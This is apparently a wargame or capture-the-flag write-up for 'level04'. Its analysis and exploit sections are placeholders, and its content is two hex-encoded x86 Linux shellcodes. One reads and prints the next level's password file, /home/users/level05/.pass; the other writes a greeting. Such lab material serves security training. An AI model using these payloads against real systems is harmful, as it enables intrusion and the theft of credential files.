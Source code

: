 # level04

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Here everything concerning the analysis of the binary.

## Exploit

Here everything concerning the exploit description.


65 bytes + pathname (25) shellcode :
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass

39 bytes fork shellcode
\x31\xc0\xb0\x04\xeb\x0f\x31\xdb\x43\x59\x31\xd2\xb2\x0d\xcd\x80\xa1\x78\x56\x34\x12\xe8\xec\xff\xff\xff\x48\x65\x6c\x6c\x6f\x2c\x57\x6f\x72\x6c\x64\x20\x21